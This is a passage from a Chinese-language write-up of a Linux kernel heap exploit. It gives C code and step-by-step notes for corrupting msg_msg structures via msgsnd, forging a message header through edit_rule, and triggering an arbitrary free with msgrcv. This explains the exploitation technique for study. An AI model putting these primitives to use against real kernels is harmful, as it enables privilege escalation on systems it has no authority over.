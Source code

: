 ```
    if (msgsnd(qid[2], page_1 + PAGE_SIZE - 0x10, 0x1ff8 - 0x30, 0) &lt; 0) // [3] 调用msgsnd() 创建0x1ff8大小的消息，新的`msg_msg`占据之前的segment，新的segment占据之前的`msg_msg`。
    `{`
        puts("msgsend failed!");
        perror("msgsnd");
        exit(1);
    `}`

    puts("[Thread 1] Message sent, *next overwritten!");
`}`

[...]

pthread_create(&amp;tid[2], NULL, allocate_msg1, NULL); // [1] 子线程创建新消息

[...]
```

[![](https://p3.ssl.qhimg.com/t0144e7cace47aa6573.png)](https://p3.ssl.qhimg.com/t0144e7cace47aa6573.png)

**任意释放**：调用`arb_free()`，伪造**QID #0**队列中的消息结构，并释放 **QID #0** 中的消息。

```
[...]

void arb_free(int idx, uint64_t target)
`{`
    struct evil_msg *msg = (struct evil_msg *)malloc(0x100);
    void *memdump = malloc(0x2000);

    msg-&gt;m_list.next = queue;         // [2] 指向 QID #1
    msg-&gt;m_list.prev = queue;
    msg-&gt;m_type =  1;
    msg-&gt;m_ts = 0x10;
    msg-&gt;next = target;             // [3] 下一个segment指向QID #1队列中的segment

    edit_rule(idx, (unsigned char *)msg, OUTBOUND, 0);             // [4] 修改 QID #0 中的消息头结构

    puts("[*] Triggering arb free...");
    msgrcv(qid[0], memdump, 0x10, 1, IPC_NOWAIT | MSG_NOERROR); // [5] 释放 QID #0 中的消息
    puts("[+] Target freed!");

    free(memdump);
    free(msg);
`}`

[...]

arb_free(0, large_msg);             // [1]

[...]
```
<li>
`[2]`：我们用之前泄露的 **QID #1** 队列的地址，来修复 **QID #0** 中的 `msg_msg-&gt;m_list.next` 和 `msg_msg-&gt;m_list.prev` ，这样我们就能调用 `msgrcv()` 释放 **QID #0** 中的消息，不用 `MSG_COPY` flag 也能避免内核unlink时崩溃。</li>
<li>
`[3]`：使`msg_msg-&gt;next`指向之前泄露的message slab，也就是现在的**QID #2**消息的segment ；</li>
<li>
`[4]`：调用 `edit_rule()` 修改 `msg_msg` 头结构后，堆布局如下：</li>
<li>
`[5]`：不带 `MSG_COPY` flag 调用 `msgrcv()`，内核将会调用`free_msg()`释放 **QID #0** 中的消息和 new segment。</li>
[![](https://p0.ssl.qhimg.com/t019d0fe43d8e2436cd.png)](https://p0.ssl.qhimg.com/t019d0fe43d8e2436cd.png)
